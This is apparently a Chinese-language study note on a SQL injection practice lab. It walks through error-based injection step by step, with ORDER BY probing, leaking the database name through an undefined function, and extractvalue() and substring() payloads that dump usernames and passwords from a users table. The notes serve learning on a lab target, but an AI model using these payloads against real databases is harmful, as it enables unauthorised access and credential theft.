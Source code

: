 ## 报错注入
1. ?id=1' order by 100 --+ 报错 Unknown column '100' in 'order clause' 说明已经正确闭合了

2. ?id=-1'  order by 3--+ 什么都不显示

3. ?id=1'  order by 3--+ 只显示 You are in.........

4. 故意调用不存在的函数套出数据库名：?id=1' union select fuck() --+ 报错 FUNCTION security.fuck does not exist 说明数据库名为 security

5. 利用 extractvalue 报错注入：

6. ```sql
   select extractvalue(1, concat(0x7e, (select database())))
   ```

7. 注意 select database() 必须用括号括起来，才会被当成代码执行。 0x7e 是飘带符号~的代码。

8. 注意这里用 union 连接前面的句子时其实不用考虑列数有没有对齐，报错照样回显

9. 后面的步骤与前面相同

10. 遇到问题：最多默认返回32个字符，利用 substring/substr 函数解决

11. ```sql
    union select 1,2,extractvalue('nanamo', substring(concat(0x7e, (select group_concat(username,'~',password) from users)),4,30))
    ```

substr(string, a, b)

利用 extractvalue() 注入：

```sql
select extractvalue('XML_document','Xpath_string') from xml
```

正常查询语句

Xpath_string例子：/book/author/surname

1. 若查询不存在的路径，找不到内容但不报错
2. 将 / 改为 ~ 产生错误 xpath syntax error 后面跟着路径回显，于是通过这处回显进行注入

substring()

```sql
substring(123456,1,3)
```

返回：123

```sql
substring(123456,4,3)
```

返回：456

即下标从1开始，第一个参数表示字符串，然后取从第二个参数给定的下标开始，数第三个参数给定的个数，得到的子串

